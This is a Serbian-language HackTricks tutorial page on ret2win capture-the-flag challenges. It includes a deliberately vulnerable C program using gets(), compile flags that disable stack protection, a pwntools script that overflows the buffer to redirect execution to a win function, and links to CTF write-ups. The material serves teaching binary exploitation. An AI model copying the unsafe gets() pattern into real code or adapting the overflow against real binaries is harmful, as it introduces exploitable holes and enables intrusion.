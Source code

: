 # Ret2win

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite svoju **kompaniju reklamiranu na HackTricks-u** ili da **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRIJAVU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**Porodicu PEASS**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## Osnovne Informacije

**Ret2win** izazovi su popularna kategorija u takmičenjima **Capture The Flag (CTF)**, posebno u zadacima koji uključuju **binarno eksploatisanje**. Cilj je iskoristiti ranjivost u datom binarnom fajlu kako bi se izvršila određena, neizvršena funkcija unutar binarnog fajla, često nazvana nešto poput `win`, `flag`, itd. Ova funkcija, kada se izvrši, obično ispisuje zastavu ili poruku o uspehu. Izazov obično uključuje prepisivanje **adrese povratka** na steku kako bi se preusmerio tok izvršavanja ka željenoj funkciji. Evo detaljnijeg objašnjenja sa primerima:

### Primer u C-u

Razmotrimo jednostavan C program sa ranjivošću i `win` funkcijom koju nameravamo pozvati:
```c
#include <stdio.h>
#include <string.h>

void win() {
printf("Congratulations! You've called the win function.\n");
}

void vulnerable_function() {
char buf[64];
gets(buf); // This function is dangerous because it does not check the size of the input, leading to buffer overflow.
}

int main() {
vulnerable_function();
return 0;
}
```
Da biste kompajlirali ovaj program bez zaštite steka i sa **ASLR** onemogućenim, možete koristiti sledeću komandu:
```sh
gcc -m32 -fno-stack-protector -z execstack -no-pie -o vulnerable vulnerable.c
```
* `-m32`: Kompajlirajte program kao 32-bitni binarni fajl (ovo je opcionalno ali često se koristi u CTF izazovima).
* `-fno-stack-protector`: Onemogućava zaštitu od preplavljivanja steka.
* `-z execstack`: Dozvoljava izvršavanje koda na steku.
* `-no-pie`: Onemogućava izvršavanje poziciono nezavisnog izvršnog fajla kako bi se osiguralo da adresa funkcije `win` ostane nepromenjena.
* `-o vulnerable`: Imenujte izlazni fajl kao `vulnerable`.

### Python Eksploatacija korišćenjem Pwntools

Za eksploataciju, koristićemo **pwntools**, moćan CTF okvir za pisanje eksploata. Skripta za eksploataciju će kreirati payload kako bi preplavila bafer i prepisala povratnu adresu sa adresom funkcije `win`.
```python
from pwn import *

# Set up the process and context for the binary
binary_path = './vulnerable'
p = process(binary_path)
context.binary = binary_path

# Find the address of the win function
win_addr = p32(0x08048456)  # Replace 0x08048456 with the actual address of the win function in your binary

# Create the payload
# The buffer size is 64 bytes, and the saved EBP is 4 bytes. Hence, we need 68 bytes before we overwrite the return address.
payload = b'A' * 68 + win_addr

# Send the payload
p.sendline(payload)
p.interactive()
```
Da biste pronašli adresu funkcije `win`, možete koristiti **gdb**, **objdump**, ili bilo koji drugi alat koji vam omogućava da pregledate binarne datoteke. Na primer, sa `objdump`, možete koristiti:
```sh
objdump -d vulnerable | grep win
```
Ova komanda će vam prikazati sklop `win` funkcije, uključujući njenu početnu adresu.

Python skripta šalje pažljivo oblikovanu poruku koja, kada je obrađena od strane `vulnerable_function`, preplavljuje bafer i prepisuje adresu povratka na steku adresom `win`. Kada se `vulnerable_function` vrati, umesto vraćanja na `main` ili izlaska, prelazi na `win`, i poruka se ispisuje.

## Zaštite

* **PIE** treba biti onemogućen da bi adresa bila pouzdana tokom izvršavanja ili adresa na kojoj će funkcija biti smeštena neće uvek biti ista i trebalo bi da imate neki "leak" kako biste saznali gde je `win` funkcija učitana. U nekim slučajevima, kada funkcija koja uzrokuje preplavljivanje je `read` ili slična, možete izvršiti **Delimično prepisivanje** od 1 ili 2 bajta da biste promenili adresu povratka da bude `win` funkcija. Zbog toga kako ASLR funkcioniše, poslednje tri heksadecimalne cifre nisu nasumične, tako da postoji **1/16 šansa** (1 heksadecimalna cifra) da dobijete ispravnu adresu povratka.
* **Stack Canaries** takođe treba da budu onemogućeni ili kompromitovana EIP adresa povratka nikada neće biti praćena.

## Ostali primeri & Reference

* [https://ir0nstone.gitbook.io/notes/types/stack/ret2win](https://ir0nstone.gitbook.io/notes/types/stack/ret2win)
* [https://guyinatuxedo.github.io/04-bof\_variable/tamu19\_pwn1/index.html](https://guyinatuxedo.github.io/04-bof\_variable/tamu19\_pwn1/index.html)
* 32 bit, bez ASLR-a
* [https://guyinatuxedo.github.io/05-bof\_callfunction/csaw16\_warmup/index.html](https://guyinatuxedo.github.io/05-bof\_callfunction/csaw16\_warmup/index.html)
* 64 bita sa ASLR-om, sa "leak"-om bin adrese
* [https://guyinatuxedo.github.io/05-bof\_callfunction/csaw18\_getit/index.html](https://guyinatuxedo.github.io/05-bof\_callfunction/csaw18\_getit/index.html)
* 64 bita, bez ASLR-a
* [https://guyinatuxedo.github.io/05-bof\_callfunction/tu17\_vulnchat/index.html](https://guyinatuxedo.github.io/05-bof\_callfunction/tu17\_vulnchat/index.html)
* 32 bita, bez ASLR-a, duplo malo preplavljivanje, prvo da preplavi stek i poveća veličinu drugog preplavljivanja
* [https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html)
* 32 bita, relro, bez canary-a, nx, bez PIE-a, formatiranje stringa za prepisivanje adrese `fflush` sa `win` funkcijom (ret2win)
* [https://guyinatuxedo.github.io/15-partial\_overwrite/tamu19\_pwn2/index.html](https://guyinatuxedo.github.io/15-partial\_overwrite/tamu19\_pwn2/index.html)
* 32 bita, nx, ništa drugo, delimično prepisivanje EIP-a (1 bajt) da pozove `win` funkciju
* [https://guyinatuxedo.github.io/15-partial\_overwrite/tuctf17\_vulnchat2/index.html](https://guyinatuxedo.github.io/15-partial\_overwrite/tuctf17\_vulnchat2/index.html)
* 32 bita, nx, ništa drugo, delimično prepisivanje EIP-a (1 bajt) da pozove `win` funkciju
* [https://guyinatuxedo.github.io/35-integer\_exploitation/int\_overflow\_post/index.html](https://guyinatuxedo.github.io/35-integer\_exploitation/int\_overflow\_post/index.html)
* Program samo validira poslednji bajt broja kako bi proverio veličinu unosa, stoga je moguće dodati bilo koju veličinu sve dok je poslednji bajt unutar dozvoljenog opsega. Zatim, unos stvara preplavljivanje bafera koje se eksploatiše sa ret2win.
* [https://7rocky.github.io/en/ctf/other/blackhat-ctf/fno-stack-protector/](https://7rocky.github.io/en/ctf/other/blackhat-ctf/fno-stack-protector/)
* 64 bita, relro, bez canary-a, nx, PIE. Delimično prepisivanje da pozove `win` funkciju (ret2win)
